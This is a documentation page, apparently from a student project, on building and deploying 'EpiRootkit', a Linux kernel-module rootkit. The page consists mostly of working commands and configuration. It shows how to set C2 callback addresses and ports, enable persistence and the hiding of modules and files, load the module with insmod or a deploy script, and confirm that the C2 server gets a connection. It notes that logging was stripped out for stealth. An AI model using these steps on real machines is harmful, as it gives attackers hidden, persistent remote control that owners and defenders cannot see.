 ```yaml
---
title: "Build & Deployment"
description: "How to build and load EpiRootkit on Ubuntu 20.04"
icon: "code"
date: "2025-05-07T00:44:31+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 502
---
```


# Build & Deployment

How to build and deploy EpiRootkit on Ubuntu 20.04 with kernel 5.4.0.

## Requirements

### System
- **OS**: Ubuntu 20.04 LTS
- **Kernel**: 5.4.0-* (check with `uname -r`)
- **Architecture**: x86_64

### Dependencies
```bash
sudo apt update
sudo apt install -y build-essential linux-headers-$(uname -r)
```

## Configuration

Edit `rootkit/core/config.h` before building:

```c
// Option 1: Domain name (recommended)
#define C2_SERVER_ADDRESS "jules-c2.example.com"
#define C2_SERVER_PORT 4444

// Option 2: IP address (traditional)
#define C2_SERVER_ADDRESS "192.168.64.1"
#define C2_SERVER_PORT 4444

// Feature settings
#define ENABLE_ENCRYPTION 0      // Encryption disabled
#define ENABLE_PERSISTENCE 1     // Auto-install persistence
#define ENABLE_MODULE_HIDING 1   // Hide module by default
#define ENABLE_FILE_HIDING 1     // Hide files with prefixes
```

## Build Process

```bash
cd rootkit
make clean && make
# ✓ Build successful: epirootkit.ko created

# Verify build
ls -la epirootkit.ko
file epirootkit.ko
# epirootkit.ko: ELF 64-bit LSB relocatable, x86-64
```

## Deployment

### Method 1: Deployment Script (Recommended)
```bash
# Deploy with domain name
sudo ./deploy_rootkit.sh address=c2.example.com

# Deploy with IP address
sudo ./deploy_rootkit.sh address=192.168.1.100 port=4444

# Deploy with defaults from config.h
sudo ./deploy_rootkit.sh
```

**What it does:**
1. Validates module and root privileges
2. Deploys to `/lib/modules/$(uname -r)/extra/`
3. Sets up autoload via `/etc/modules-load.d/`
4. Updates dependencies with `depmod -a`
5. Loads module immediately
6. Verifies deployment

### Method 2: Manual Loading
```bash
# Load with domain
sudo insmod epirootkit.ko address=c2.example.com port=443

# Load with IP
sudo insmod epirootkit.ko address=192.168.1.100 port=4444

# Load with defaults
sudo insmod epirootkit.ko
```

## Verification

### Check Loading
```bash
# Check if loaded (may be hidden if stealth enabled)
lsmod | grep epirootkit

# Alternative check if module is hidden
ls -la /sys/module/epirootkit

```

### Module Status
Since verbose logging has been removed for stealth operation, the rootkit operates silently. 

**Successful loading indicators:**
- Module appears in `/sys/module/epirootkit/` (unless hidden)
- No critical errors in `dmesg`
- C2 server receives connection from new client

**Note:** Operational logs have been removed to maintain stealth - the rootkit operates silently with minimal traces.

## Domain Support

The rootkit supports both domain names and IP addresses for C2 connectivity.

For complete DNS resolution details, see [DNS Resolution](./features/dns-resolution.md).

## Management Commands

### Check Status
```bash
sudo ./deploy_rootkit.sh status
# Module Status: LOADED
# Location: /lib/modules/5.4.0-74-generic/extra/epirootkit.ko
# Autoload: ENABLED (/etc/modules-load.d/epirootkit.conf)
# Connection: CONNECTED (c2.example.com:443)
```

### Complete Removal
```bash
sudo ./deploy_rootkit.sh uninstall
# ✓ Module unloaded
# ✓ Autoload disabled
# ✓ Module file removed
# ✓ Dependencies updated
```

### Update Module
```bash
# Rebuild and redeploy
make clean && make
sudo ./deploy_rootkit.sh update
# ✓ Module updated and reloaded
```
